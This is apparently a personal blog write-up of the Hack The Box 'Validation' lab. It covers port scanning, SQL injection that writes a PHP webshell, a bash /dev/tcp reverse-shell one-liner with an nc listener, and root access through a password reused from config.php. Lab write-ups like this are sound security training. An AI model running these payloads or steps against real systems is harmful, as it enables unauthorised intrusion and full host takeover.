 +++
title = "Validation - Write up"
date = "2022-06-22T21:03:46-05:00"
author = "l0gan334"
cover = "Validation.png"
tags = ["hacking", "ctf", "eJPT-like", "HTB", "linux"]
keywords = ["", ""]
description = "**HTB | Validation - Write up**"
showFullContent = false
readingTime = false
hideComments = false
+++

**Validation** is a Hack The Box machine ranked easy.

Its main challenge is **SQL Injection** where we're going to be able to write a **webshell** into the web server. 

# **```Recon```**
# Nmap scan
With **nmap** we will find opened ports and examinate them:
```bash 
❯ nmap -p- -sS --min-rate 5000 --open -n -Pn 10.129.84.93 -oG allPorts
```

We are exporting the result in grepable format, which is great to manage with regex and get all the ports without needing to type them one by one:

{{< code language="bash" title="Here you have an useful function you can use for this manner" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
	ip_address="$(cat $1 | grep initiated | awk 'NF{print $NF}')"
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat extractPorts.tmp
	rm extractPorts.tmp
}
{{< /code >}}
```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.129.84.93
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```

Now that we have the opened ports we can examinate them deeply.
```bash
nmap -sCV -p 22,80,4566.8080 10.129.84.93 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 12:55 -05
Nmap scan report for 10.129.84.93
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```

**Port 80** is opened with a **http** service, we can make a quick inspection with **whatweb**:
```bash
❯ whatweb http://10.129.85.93
http://10.129.84.93 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)],
IP[10.129.84.93], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

We don't get much information so it's time to visit the page:

{{< image src="/img/sc3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It's a register panel that doesn't seem to do much...

{{< image src="/img/test.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We will intercept the register request with **Burpsuite** so we can do some tests.
{{< image src="/img/val-2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

After a simple test we see how the *country* field is vulnerable to **SQLI**:
{{< image src="/img/val-1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


We could look for credentials in the dabatase but we can also check if we can write files:
{{< image src="/img/val-3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We will test this by writing "test" into /var/www/html/test.txt which is the default route where the website files are located:
{{< image src="/img/val-4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And it works!

**Wappalyzer** shows us the programming language used by the website:
{{< image src="/img/val-5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


So now we can write a simple web shell in **php** and get **Remote Command Execution.**
{{< image src="/img/val-6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This script will create a **webshell** in **/shell.php** which takes the parameter **cmd** to execute commands:
{{< image src="/img/val-7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

# **```Intrusion```**

Now we can get a reverse shell with this payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.161/334 0>&1'
```

Here we specify our **IP address** and the **port** where we're going to set the listener.

As we are sending this payload over **URL** the **'&'** might give us syntax problems so we will url-encode this character as **%26**:
{{< image src="/img/val-9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Now we check our listener and we wait for the connection:
```bash
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.83.187.
Ncat: Connection from 10.129.83.187:46728.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```


We have a shell but not a **tty** so we will do a **tty treatment**:
```bash
www-data@validation:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 334

❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 334
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

And finally the last touches.
```bash
www-data@validation:/var/www/html$ export SHELL=bash
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ stty rows 40 columns 45
```

This way we will have the correct screen size (you can find your own with ```stty size```) and we are also able to do ^L.


Now that we have everything set we look for the **user flag** and start the enumeration:

```bash
www-data@validation:/var/www/html$ cd /home
www-data@validation:/home$ ls
htb
www-data@validation:/home$ cd htb
www-data@validation:/home/htb$ cat user.txt
18ed73a646e875a23aaaa1**********
```

Nice, we found the **user.txt** now we can move on.

Inside **/var/www/html** we find this:
```bash
www-data@validation:/var/www/html$ ls
account.php  config.php  css  index.php  js
```

There's a configuration file, which are usually very interesting and might contain credentials:
```bash
www-data@validation:/var/www/html$ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

These are supposed to be **database** credentials, however, we have to check if they're being reused by any user inside the machine, like **root**:
```text
www-data@validation:/var/www/html$ su root
Password:  
root@validation:/var/www/html# whoami
root
```
And it is! Not a hard privilege escalation this time.

```bash
root@validation:/var/www/html# cat /root/root.txt
8e1b95544267b95044**************
```

See you next time!